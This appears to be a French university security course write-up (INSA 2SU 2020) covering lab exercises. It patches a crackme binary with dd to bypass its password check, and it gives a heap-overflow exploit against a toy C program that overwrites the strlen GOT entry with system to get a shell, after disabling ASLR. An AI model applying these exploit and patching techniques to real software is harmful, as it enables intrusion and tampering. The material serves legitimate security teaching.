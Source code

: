 # INSA 2SU 2020

https://bitbucket.org/whitewand/2su_2020/src

## Questions

## TD
### TD1

#### Crack emily

`file Td1.original 
Td1.original: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0456a9207dea8aeec6c747f074818b7b8b231b1d, not stripped`

On lance ensuite Radare2. On peut après l'analyse afficher les strings et les symboles.

![Main](./src/img/main.png)

On peut voir que la fonction main vérifie l'input avec la fonction is_valid:

![is_valid](./src/img/is_valid.png)

On peut extraire le mot de passe: **poop**. On peut voir différentes façons de patcher le binaire, en modifiant le mot de passe dans la section .data (offset: 0x984) ou en patchant le .text du programme. On peut Noped (0x90 opcode = no operation) le *je* (offset: 0x8c6) de main, le *jne* (offset: 0x861) de is valid, et change le mov 0 (offset: 0x86d) de is_valid en mov 1.

Petit script qui fait ca avec dd:

```
#!/bin/bash

echo "#Patching files";echo
cp Td1.original Td1_change_password
cp Td1.original Td1_main_nop_je
cp Td1.original Td1_is_valid_no_jne
cp Td1.original Td1_is_valid_change_mov

printf 'pwnd' | dd of=Td1_change_password bs=1 seek=2436 count=4 conv=notrunc
printf '\x90\x90' | dd of=Td1_main_nop_je bs=1 seek=2246 count=2 conv=notrunc
printf '\x90\x90' | dd of=Td1_is_valid_no_jne bs=1 seek=2145 count=2 conv=notrunc
printf '\x01' | dd of=Td1_is_valid_change_mov bs=1 seek=2157 count=1 conv=notrunc

echo "[+] testing";echo
echo "echo 'pwnd' | ./Td1_change_password"
echo 'pwnd' | ./Td1_change_password;echo
echo "echo 'random' | ./Td1_main_nop_je"
echo 'random' | ./Td1_main_nop_je;echo
echo "echo 'random' | ./Td1_is_valid_no_jne"
echo 'random' | ./Td1_is_valid_no_jne;echo
echo "echo 'random' | ./Td1_is_valid_change_mov"
echo 'random' | ./Td1_is_valid_change_mov;echo
```

résultat:

```
#Patching files

4+0 enregistrements lus
4+0 enregistrements écrits
4 bytes copied, 0,000147782 s, 27,1 kB/s
2+0 enregistrements lus
2+0 enregistrements écrits
2 bytes copied, 0,000114043 s, 17,5 kB/s
2+0 enregistrements lus
2+0 enregistrements écrits
2 bytes copied, 0,000120412 s, 16,6 kB/s
1+0 enregistrements lus
1+0 enregistrements écrits
1 byte copied, 0,000110696 s, 9,0 kB/s
[+] testing

echo 'pwnd' | ./Td1_change_password
Please input a word: That's correct!

echo 'random' | ./Td1_main_nop_je
Please input a word: That's correct!

echo 'random' | ./Td1_is_valid_no_jne
Please input a word: That's correct!

echo 'random' | ./Td1_is_valid_change_mov
Please input a word: That's correct!
```

#### Patch binaire

### TD2
#### Binwalk
### TD3
#### Heap overflow

Nous allons exploiter un binaire dont voici le code source:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct user {
 char * name;
};

int main(int argc, char **argv){

  struct user *bot;
  bot = (struct user*)malloc(sizeof(struct user*));
  bot->name = malloc(sizeof(char)*20);
  strcpy(bot->name, "botname\0");

  struct user *nick;
  nick = (struct user*)malloc(sizeof(struct user*));
  nick->name = malloc(sizeof(char)*20);
  strcpy(nick->name, "nickname\0");

  char buf[256];
  int size;

  //printf("0x%08x\n", printf);

  printf("Change botname?\n");
  memset(buf,0,256); 
  scanf("%s",buf);
  size = strlen(buf);
  strcpy(bot->name, buf);

  printf("Change nickname?\n");
  memset(buf,0,256); 
  scanf("%s",buf);
  strcpy(nick->name, buf);

  printf("Your message?\n");
  memset(buf,0,256); 
  scanf("%s",buf);
  size = strlen(buf);
  free(bot);
  //free(nick);
  printf("Message sent\n");
  return 0;
}
```

On peut voir que le programme run normalement

![basic](.src/img/firsrun.png)

Grâce à un heap overflow de la structure 'bot' nous allons pouvoir modifier l'adresse de la structure 'nick'. Ceci va nous donner une écriture arbitraire. Où pourrions nous écrire quelque chose d'interéssant? La Global offset table qui redirige vers les fonctions de la Glibc me parait une bonne cible. On pourrais par exemple remplacer l'adresse de 'strlen' par 'system' et executer '/bin/sh' à la place du message.

On peut calculer l'offset des fonctions

![func](.src/img/offset func.png)

On peut voir l'adresse de strlen dans la GOT

Au premier appel on résoud l'adresse de strlen

![got](.src/img/strlengot1.png)

après la résolution on voit que ca pointe bien vers strlen

![got](.src/img/strlengot2.png)

exploit:

```
import sys
import struct
from pwn import *


pad = "AAAAAAAA"*4
read_addr = struct.pack("<Q", 0x555555755030) # adresse de strlen dans la GOT
s1 = pad + read_addr + "\n"

strlen = 0x7ffff7e7d710 # adresse de strlen dans la Glibc


# step 2 arbitrary writing
system = struct.pack("<Q", strlen-0x43720) # adresse de system de la Glibc par offset
s2 = system + "\n" + "/bin/sh\n"

sys.stdout.write(s1 + s2)
```

On peut compiler le programme simplement 

`gcc -o Chatbot charbot.c`

Pour que cet exploit marche il faut désactiver l'ASLR qui va changer l'adresse de base de la Glibc à chaque execution.

`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

Si on avait une lecture arbitraire, on pourrait leaker une adresse de la Glibc et ainsi calculer l'offset de 'system' même avec la randomisation des adresses de la Glibc.

on obtient bien un shell:

![exploit](.src/img/exploit.png)

On peut voir ce qui se passe dans la heap:

avant la copy le heap overflow on voit l'adresse de bot et de nick qui pointe vers leurs chaine de caractère respectivement.

![got](.src/img/heap1.png)

ensuite après le heap overflow, on voit que l'adresse de nick pointe vers strlen@got:

![got](.src/img/heap2.png)

Si on regarde dans strlen@plt, on voit que ca pointe désormais vers system

![got](.src/img/strlengot3.png)
